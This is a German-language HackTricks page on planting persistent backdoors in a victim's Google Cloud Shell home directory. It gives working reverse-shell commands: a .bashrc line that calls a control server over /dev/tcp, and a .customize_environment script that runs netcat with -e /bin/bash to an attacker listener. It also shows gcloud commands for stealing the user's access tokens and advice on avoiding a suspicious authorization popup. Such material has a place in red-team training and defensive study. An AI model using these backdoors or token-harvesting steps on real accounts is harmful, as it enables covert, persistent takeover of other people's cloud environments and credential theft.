 # GCP - Cloud Shell Persistenz

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github Repos.

</details>

## Cloud Shell

Für weitere Informationen siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistente Hintertür

[**Google Cloud Shell**](https://cloud.google.com/shell/) bietet Ihnen den Zugriff auf die Befehlszeile Ihrer Cloud-Ressourcen direkt über Ihren Browser ohne anfallende Kosten.

Sie können auf die Google Cloud Shell über die **Webkonsole** oder durch Ausführen von **`gcloud cloud-shell ssh`** zugreifen.

Diese Konsole bietet Angreifern einige interessante Möglichkeiten:

1. **Jeder Google-Benutzer mit Zugriff auf Google Cloud** hat Zugriff auf eine vollständig authentifizierte Cloud Shell-Instanz (auch Service-Konten können dies, selbst wenn sie Eigentümer der Organisation sind).
2. Diese Instanz wird **ihren Home-Verzeichnis für mindestens 120 Tage beibehalten**, wenn keine Aktivität stattfindet.
3. Es gibt **keine Möglichkeiten für eine Organisation, die Aktivität dieser Instanz zu überwachen**.

Das bedeutet im Grunde, dass ein Angreifer eine Hintertür im Home-Verzeichnis des Benutzers platzieren kann und solange der Benutzer mindestens alle 120 Tage eine Verbindung zur GC Shell herstellt, wird die Hintertür überleben und der Angreifer wird jedes Mal eine Shell erhalten, wenn sie ausgeführt wird, einfach durch:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Es gibt eine weitere Datei im Home-Verzeichnis namens **`.customize_environment`**, die, wenn sie existiert, **jedes Mal ausgeführt wird**, wenn der Benutzer auf die **Cloud Shell** zugreift (wie bei der vorherigen Technik). Fügen Sie einfach die zuvor verwendete Hintertür oder eine ähnliche ein, um die Persistenz aufrechtzuerhalten, solange der Benutzer die Cloud Shell "häufig" verwendet:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es ist wichtig zu beachten, dass beim **ersten Mal, wenn eine Aktion, die eine Authentifizierung erfordert, durchgeführt wird**, ein Popup-Autorisierungsfenster im Browser des Benutzers erscheint. Dieses Fenster muss akzeptiert werden, bevor der Befehl ausgeführt werden kann. Wenn ein unerwartetes Popup erscheint, könnte dies Verdacht erregen und potenziell die verwendete Persistenzmethode gefährden.
{% endhint %}

Dies ist das Popup, das beim Ausführen von `gcloud projects list` aus der Cloud Shell (als Angreifer) in der Browsersitzung des Benutzers angezeigt wird:


<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn der Benutzer jedoch aktiv die Cloud Shell verwendet hat, wird das Popup nicht angezeigt und Sie können **Token des Benutzers sammeln mit**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Wie die SSH-Verbindung hergestellt wird

Grundsätzlich werden diese 3 API-Aufrufe verwendet:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ermöglicht das Hinzufügen Ihres öffentlichen Schlüssels, den Sie lokal erstellt haben)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (startet die Instanz)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (gibt Ihnen die IP des Google Cloud Shell)

Aber weitere Informationen finden Sie unter [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referenzen

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **einreichen.**
*
*
* &#x20;GitHub-Repositories.

</details>
